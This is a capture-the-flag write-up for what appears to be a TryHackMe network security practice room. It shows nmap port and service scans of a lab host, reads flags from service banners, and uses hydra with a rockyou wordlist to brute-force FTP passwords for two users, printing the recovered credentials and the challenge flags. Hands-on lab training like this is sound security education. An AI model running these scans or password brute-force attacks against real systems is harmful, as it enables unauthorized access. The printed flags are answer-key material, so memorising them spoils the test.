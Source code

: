 [[Writeup]]
Practice the skills you have learned in the Network Security module.

### introduction
Use this challenge to test your mastery of the skills you have acquired in the Network Security module. All the questions in this challenge can be solved using only `nmap`, `telnet`, and `hydra`.

What is the highest port number being open less than 10,000?

```
⚡dd0x ❯❯ sudo nmap -sS -vv -sV -p1-10000 10.10.26.156
[sudo] password for dd0x: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-27 19:22 PST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 19:22
Scanning 10.10.26.156 [4 ports]
Completed Ping Scan at 19:22, 0.28s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:22
Completed Parallel DNS resolution of 1 host. at 19:22, 0.06s elapsed
Initiating SYN Stealth Scan at 19:22
Scanning 10.10.26.156 [10000 ports]
Discovered open port 22/tcp on 10.10.26.156
Discovered open port 445/tcp on 10.10.26.156
Discovered open port 8080/tcp on 10.10.26.156
Discovered open port 139/tcp on 10.10.26.156
Discovered open port 80/tcp on 10.10.26.156
```

`8080`

There is an open port outside the common 1000 ports; it is above 10,000. What is it?  

`nmap -sS -sV -T4 -p- 10.10.26.156`
```
PORT       STATE SERVICE       REASON           VERSION
22/tcp     open  ssh           syn-ack ttl 63   protocol 2.0
80/tcp     open  http          syn-ack ttl 63   lighttpd
139/tcp    open  netbios-ssn   syn-ack ttl 63   Samba smbd 4.6.2
445/tcp    open  netbios-ssn   syn-ack ttl 63   Samba smbd 4.6.2
8080/tcp   open  http          syn-ack ttl 63   Node.js (Express middleware)
10021/tcp  open  ftp           syn-ack ttl 63   vsftpd 3.0.3

```

`10021`

How many TCP ports are open?  

```
PORT       STATE SERVICE       REASON           VERSION
22/tcp     open  ssh           syn-ack ttl 63   protocol 2.0
80/tcp     open  http          syn-ack ttl 63   lighttpd
139/tcp    open  netbios-ssn   syn-ack ttl 63   Samba smbd 4.6.2
445/tcp    open  netbios-ssn   syn-ack ttl 63   Samba smbd 4.6.2
8080/tcp   open  http          syn-ack ttl 63   Node.js (Express middleware)
10021/tcp  open  ftp           syn-ack ttl 63   vsftpd 3.0.3

```

`6`

What is the flag hidden in the HTTP server header?

```
80/tcp   open  http        lighttpd
|_http-server-header: lighttpd THM{web_server_25352}
|_http-title: Hello, world!

```

`THM{web_server_25352}`

What is the flag hidden in the SSH server header?  

```
22/tcp   open  ssh         (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339
```

`THM{946219583339}`

We have an FTP server listening on a nonstandard port. What is the version of the FTP server?  

```
 ⚡dd0x ❯❯ ftp 10.10.26.156 10021
Connected to 10.10.26.156.
220 (vsFTPd 3.0.5)
Name (10.10.26.156:dd0x):
```

`vsFTPd 3.0.5`

We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?  

payload for eddie
```
 ⚡dd0x ❯❯ hydra -l eddie -P ~/Downloads/rockyou.txt ftp://10.10.26.156:10021
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-27 19:29:46
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.26.156:10021/
[10021][ftp] host: 10.10.26.156   login: eddie   password: jordan
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-27 19:30:00

```

login eddie's account from the ftp 

```
 ⚡dd0x ❯❯ ftp 10.10.26.156 10021
Connected to 10.10.26.156.
220 (vsFTPd 3.0.5)
Name (10.10.26.156:dd0x): eddie
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> LIST
?Invalid command.
ftp> ls
229 Entering Extended Passive Mode (|||30313|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> 

```
Nothing was discovered in eddie's acc

payload for quinn
```
 ⚡dd0x ❯❯ hydra -l quinn -P ~/Downloads/rockyou.txt ftp://10.10.26.156:10021
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-27 19:29:15
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ftp://10.10.26.156:10021/
[10021][ftp] host: 10.10.26.156   login: quinn   password: andrea
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-27 19:29:29
```

login quinn's account
```
 ⚡dd0x ❯❯ ftp 10.10.26.156 10021
Connected to 10.10.26.156.
220 (vsFTPd 3.0.5)
Name (10.10.26.156:dd0x): quinn
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||30363|)
150 Here comes the directory listing.
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
226 Directory send OK.
ftp> get ftp_flag.txt
local: ftp_flag.txt remote: ftp_flag.txt
229 Entering Extended Passive Mode (|||30839|)
150 Opening BINARY mode data connection for ftp_flag.txt (18 bytes).
100% |***********************************|    18       17.99 KiB/s    00:00 ETA
226 Transfer complete.
18 bytes received in 00:00 (0.06 KiB/s)
ftp> exit
221 Goodbye.

```

after getting the `ftp_flag.txt` lets check the file
`cat ftp_flag.txt`

`THM{321452667098}`

Browsing to `http://10.10.26.156:8080` displays a small challenge that will give you a flag once you solve it. What is the flag?

![[Pasted image 20250427193916.png]]
use the command `-sN`

![[Pasted image 20250427194049.png]]
`THM{f7443f99}`